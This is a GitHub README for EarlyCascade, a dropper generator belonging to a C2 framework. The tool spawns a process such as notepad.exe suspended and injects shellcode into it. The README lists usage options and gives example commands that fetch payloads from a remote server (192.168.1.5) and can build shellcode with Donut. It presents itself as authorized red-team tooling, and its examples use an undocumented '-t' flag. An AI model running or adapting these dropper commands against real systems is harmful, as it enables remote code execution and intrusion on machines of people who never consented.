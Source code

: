 # EarlyCascade

**EarlyCascade** is a dropper generator that performs **shellcode injection into a newly created process**. It allows shellcode to be fetched remotely and supports both Donut-generated shellcode from a PE binary or raw shellcode files.

This dropper is integrated as a module in the [Exploration C2](https://github.com/maxDcb/C2TeamServer) framework.

## Features

* Remote shellcode retrieval over HTTP(S)
* Shellcode injection into a spawned process (e.g., `notepad.exe`)
* Supports shellcode generation from PE binaries via [Donut](https://github.com/TheWover/donut)

## Usage

```bash
EarlyCascade.py -p <process> -u <url> -b <binary> -a <args> 
EarlyCascade.py -p <process> -u <url> -r <rawShellcode>
```

### Options

* `-h, --help`
  Show this help message and exit.

* `-p, --process <name>`
  Name of the target process to create and inject into (e.g., `notepad.exe`).

* `-u, --url <url>`
  URL where the dropper will fetch the shellcode from (e.g., `http://your-server/payload.bin`).

* `-b, --binary <path>`
  Path to a PE binary used to generate shellcode using [Donut](https://github.com/TheWover/donut).

* `-a, --args "<arguments>"`
  Optional arguments to pass to the binary when generating shellcode.

* `-r, --rawShellcode <path>`
  Path to an existing raw shellcode file. If this is provided, Donut is not used.

## Examples

```bash
# Use Donut to convert calc.exe into shellcode, inject into notepad.exe
EarlyCascade.py -p notepad.exe -u http://192.168.1.5/payload.bin -b ./calc.exe -a "-silent" -t TARGET-HOST

# Use raw shellcode instead, and restrict execution to a host
EarlyCascade.py -p notepad.exe -u http://192.168.1.5/payload.raw -r ./payload.raw -t TARGET-HOST
```

## Notes

* Either `--binary` or `--rawShellcode` must be specified, not both.
* Donut must be installed and available in `PATH` if using the `--binary` option.
* The target process will be spawned in a suspended state for shellcode injection.

## Acknowledgment

This tool is inspired by the original concept from [0xNinjaCyclone's EarlyCascade](https://github.com/0xNinjaCyclone/EarlyCascade).

## Disclaimer

This tool is intended for authorized red teaming, research, and educational purposes **only**. Unauthorized use is strictly prohibited.
